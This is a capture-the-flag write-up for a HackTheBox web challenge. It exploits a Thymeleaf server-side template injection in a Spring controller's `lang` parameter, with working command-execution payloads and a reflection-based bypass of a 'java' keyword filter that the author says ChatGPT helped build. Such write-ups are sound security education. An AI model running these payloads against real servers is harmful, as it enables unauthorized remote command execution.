



# Breathtaking View

### ----- Challenge -----
- Check out my new website showcasing a breathtaking view—let's hope no one can 'manipulate' it!

### ----- Analysis -----
- We have to register a user, and after doing so and loggin in, we are presented with this page:


- It's only functionality is to change the `lang` parameter of the page, so I enter a random value in this parameter and this happens:



- What I entered is reflected back to me, and it mentions templates, so I'm thinking immediately of a **Server-Side Template Injection (SSTI)**

- Let's dive into the source code!

```java
package com.hackthebox.breathtaking_view.Controllers;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.servlet.mvc.support.RedirectAttributes;

import javax.servlet.http.HttpSession;

@Controller
public class IndexController {
    @GetMapping("/")
    public String index(@RequestParam(defaultValue = "en") String lang, HttpSession session, RedirectAttributes redirectAttributes) {
        if (session.getAttribute("user") == null) {
            return "redirect:/login";
        }

        if (lang.toLowerCase().contains("java")) {
            redirectAttributes.addFlashAttribute("errorMessage", "But.... For what?");
	        return "redirect:/";
        }
        return lang + "/index";
    }
}
```


- We see that the server is using **thymeleaf** as the template engine and that there are several restrictions that need to be bypassed:
    - The `lang` parameter can't contain the 'java' string
    - '/index' gets appended to the end of the `lang` parameter

- I start looking for exploits online and find this:
    - https://0xn3va.gitbook.io/cheat-sheets/framework/spring/view-manipulation

- I commented the 'java' restriction out on my local version of the challenge and tried the payload presented in this article. I URL encoded it and appended a null terminator (`%00`) to bypass the `lang + "/index"` issue:




- It worked! However, to find out the name of the flag file I need to be able to see the full output of `ls`. 
    - `__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("ls /").getInputStream()).useDelimiter("\\A").next()}__::.x`. I added `.useDelimiter("\\A")` to the payload. 
    - `\\A` means end-of-input, so by using it as a delimiter the whole output is treated as a single word and `next()` shows me the full output at once.
 - Let's try it out:

 

- It works locally when the `.contains("java")` restriction is removed! Now I need to figure out a way to bypass this.

### ----- Exploitation -----
- I had a vague idea in my mind that in Java classes could be instantiated by their name, by passing it as a string into a specific function. (I learned this in college).
- I didn't exactly know how to do this, but if I was able to, I could just pass `"ja" + "va" + ".lang.Runtime"` into that function and bypass the restriction.
- So I ask my friend ChatGPT, and after some tweaking we cook this payload:

``` java
__${T(Class).forName('ja'+'va.util.Scanner').getConstructor(T(Class).forName('ja'+'va.io.InputStream')).newInstance(T(Class).forName('ja'+'va.lang.Runtime').getMethod('getRuntime').invoke(null).exec('ls /').getInputStream()).useDelimiter("\\A").next()}__::.x
```

- I run it and it works!
- Then I just need to change the command to cat the flag:
 


- **Flag: HTB{whAt_4_v1ewWwww!}**

writeup by *varanda* - 19/11/2025
